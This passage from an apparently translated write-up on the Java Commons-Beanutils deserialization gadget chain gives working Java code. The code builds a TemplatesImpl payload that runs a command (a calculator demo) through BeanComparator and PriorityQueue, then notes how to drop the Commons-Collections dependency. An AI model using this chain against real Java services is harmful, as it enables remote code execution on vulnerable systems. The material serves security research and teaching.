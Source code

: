 ```java
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");");

        byte[] bytes = ctClass.toBytecode();
        byte[][] targetBytes = new byte[][]{bytes};

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "h3rmesk1t");
        setFieldValue(templates, "_bytecodes", targetBytes);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator();
        Priority
Queue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
        queue.add(1);
        queue.add(2);

        setFieldValue(beanComparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        try {
            // Serialization operation
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CBEvilWithCC.bin"));
            outputStream.writeObject(queue);
            outputStream.close();
            // Deserialization operation
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CBEvilWithCC.bin"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {

        CB();
    }
}
```

![](./images/4.png)

## ExploitWithoutCC
The code in ExploitWithoutCC can successfully construct deserialization utilization, but the default `BeanComparator` is `ComparableComparator`, which is a class in `CommonCollections`, which leads to a trigger chain of `CB`, but it depends on `CC` at the same time. This has added many restrictions on utilization. Therefore, in order to change this situation, when instantiating `BeanComparator`, it is given a `JDK` that comes with the `JDK` and implement the `Serializable` interface, such as `java.util.Collections$ReverseComparator` and `java.lang.String$CaseInsensitiveComparator`. Instantiate `Comparator` by reflection and specify when `BeanComparator` is initialized.
